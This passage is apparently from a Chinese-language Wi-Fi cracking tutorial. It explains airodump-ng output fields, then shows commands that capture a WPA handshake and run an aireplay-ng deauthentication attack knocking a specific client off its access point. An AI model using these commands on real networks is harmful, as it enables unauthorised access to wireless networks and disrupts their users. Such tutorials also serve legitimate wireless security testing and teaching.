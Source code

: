 字段解释：
- BSSID：表示无线 AP 的 MAC 地址
- PWR：信号强度，它的值一般都是一个负数，值越大，表示信号越强。如果 PWR 值为 -1，说明不支持信号强度的查看
- Beacons：Beacon 是无线数据包中最有用的一种，叫做信号数据包。802.11 的数据包按类型可以分成三类：管理、控制和数据。管理类数据包又可以分为三种子类型：认证（authentication）、关联（association）和信号（beacon）数据包。Beacon 由 WAP 发送，穿过无线信道通知所有无线客户端存在这个 WAP，并定义了连接它必须设置的一些参数
- #Data：捕获到的数据分组的数量，包括广播分组
- CH：信道号
- MB：WAP 所支持的最大速率
- ENC：使用的加密算法体系。OPN 表示无加密，WEP? 表示 WEP 或者 WPA/WPA2，WEP 表示静态的或者动态的 WEP，当然，WEP 加密很早就已经遭淘汰了，目前最常见的是 WPA 和 WPA2
- CIPHER：使用的加密算法。常见的算法有：CCMP、WRAAP、TKIP、WEP 等
- AUTH：使用的认证协议。常用的有：MGT（WPA/WPA2 使用独立的认证服务器，譬如 802.1x、RADIUS、EAP 等），SKA（WEP 的共享密钥），PSK（WPA/WPA2 的预共享密钥）和 OPN（开放式）
- ESSID：所谓的 SSID 号，如果启用隐藏的话，ESSID 可以为空，或者显示为 <length: 0>
- STATION：客户端的 Mac 地址，包括连上的和想要连的客户端。如果客户端没有连上 AP，ESSID 列显示成 (not associated)
- Probe：被客户端查探的 ESSID，如果客户端正在试图连接一个 AP，但是没有连接上，将会显示在这里

#### step3：攻击并抓取握手包

通过抓去这个指定bssid我已经看到有一个用户连接，STATION可以看到
接下来进行握手包抓取了
```shell
# 探测指定的无线网络
# 参数：
# -c 指定频道号
# --bssid 指定路由器bssid
# -w 指定抓取的握手包存储路径
# 最后是指定网卡接口
airodump-ng wlan0 -c 1 --bssid 94:0C:6D:46:51:52 -w ./
```

![](resources/2023-07-03-17-29-06.png)

到现在为止，我只有一个终端窗口
请勿多开终端窗口，不然可能导致一直抓不到信息

对其中的一个连接进行攻击，使其对AP断开连接
注意：此时我上面一个终端窗口并没有停止抓包，而是一只运行着，我下面是新开的一个终端，现在一共打开两个终端窗口

aireplay-ng是一个注入帧的工具
接下来进行
```shell
# 对指定BSSID的目标网络发送解除认证数据包，迫使客户端重新认证并捕获握手数据包
# 参数：
# -0 表示解除认证攻击，后接的数字是攻击次数
# -a 指定无线路由器BSSID
# -c 指定强制断开的设备
# 最后是指定网卡接口
aireplay-ng -0 10 -a 94:0C:6D:46:51:52 -c 8A:07:74:A1:D2:D9 wlan0
```
